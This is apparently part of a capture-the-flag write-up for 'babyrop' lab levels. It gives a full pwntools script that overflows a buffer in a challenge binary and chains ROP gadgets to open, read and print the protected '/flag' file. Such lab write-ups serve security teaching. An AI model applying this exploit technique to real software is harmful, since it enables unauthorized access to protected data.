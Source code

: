 Shell was spawned successfully, but `cat /flag` gave Permission denied error

### Executing open(), read(), write() worked

```python
from pwn import *

p = process('/challenge/babyrop_level4.0')
p.recvuntil(b'[LEAK]')
addr = int(str(p.recvline().split(b" ")[-1])[2:-4], 16)

offset = 0x38
pop_rdi = 0x401e07 # pop rdi; ret
pop_rsi = 0x401e17 # pop rsi; ret
pop_rdx = 0x401de8 # pop rdx; ret
pop_rax = 0x401df7 # pop rax; ret
syscall = 0x401ddf # syscall

flag_path = addr + offset + 8*25
buffer = flag_path + 10
size = 100

payload = b'A'*offset

payload += p64(pop_rdi) + p64(flag_path)  # 1st arg: pointer to "/flag"
payload += p64(pop_rsi) + p64(0)  # 2nd arg: O_RDONLY
payload += p64(pop_rax) + p64(2)  # 3rd arg: syscall number for open
payload += p64(syscall)  # open("/flag", O_RDONLY)

payload += p64(pop_rdi) + p64(3)  # 1st arg: file descriptor returned by open (stdout is 1, fd is 3 here)
payload += p64(pop_rsi) + p64(buffer)  # 2nd arg: buffer to store content of "/flag"
payload += p64(pop_rdx) + p64(size)  # 3rd arg: number of bytes to read
payload += p64(pop_rax) + p64(0)  # syscall number for read
payload += p64(syscall)  # read(3, buffer, size)

payload += p64(pop_rdi) + p64(1)  # 1st arg: file descriptor for stdout
payload += p64(pop_rsi) + p64(buffer)  # 2nd arg: buffer having content of "/flag"
payload += p64(pop_rdx) + p64(size)  # 3rd arg: size to write
payload += p64(pop_rax) + p64(1)  # syscall number for write
payload += p64(syscall)  # write(1, buffer, size)

payload += b"/flag\x00"
p.sendline(payload)
p.interactive()
```

## level 4.1

Prev solution works

## level 5.0
